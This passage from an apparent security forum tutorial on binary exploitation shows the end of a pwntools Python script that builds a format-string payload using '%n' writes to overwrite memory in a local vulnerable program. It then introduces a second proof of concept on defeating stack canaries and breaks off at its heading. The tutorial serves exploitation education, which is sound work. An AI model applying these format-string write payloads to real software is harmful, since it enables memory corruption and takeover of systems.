 ```python
    exploit += "%9$n"
    
    exploit += "%221x"
    exploit += "%10$n"
    
    exploit += "%102x"
    exploit += "%11$n"
    
    exploit += "%532x"
    exploit += "%12$n"



    padding = pad(exploit)

    if args.dbg:
        r = gdb.debug([exe], gdbscript="""
                b *vuln+92
                b *vuln+98
                continue
                """)
    else:
        r = process([exe])

    r.send(padding)
    r.interactive()


if __name__ == '__main__':
    main()
    sys.exit(0)
```

###Proof
<img src="//0x00sec.s3.amazonaws.com/original/2X/1/1e7f38bb8cfbe9e46f4420e3f6a3cf7d58629d14.png" width="578" height="500">

Ok this worked but it did not necessarily defeat stack canaries!
I just opened another can of delicious attack surfaces and with that I was able to bypass the canaries completely.
Since that just doesn't feel quite right I will give another PoC for defeating the mechanism in a more appropriate manner.

 
 ____
## PoC 2
### Defeating stack canaries 4 realz now

Okay this time around a more 'standard' way of defeating stack canaries is shown

#### Vulnerable program
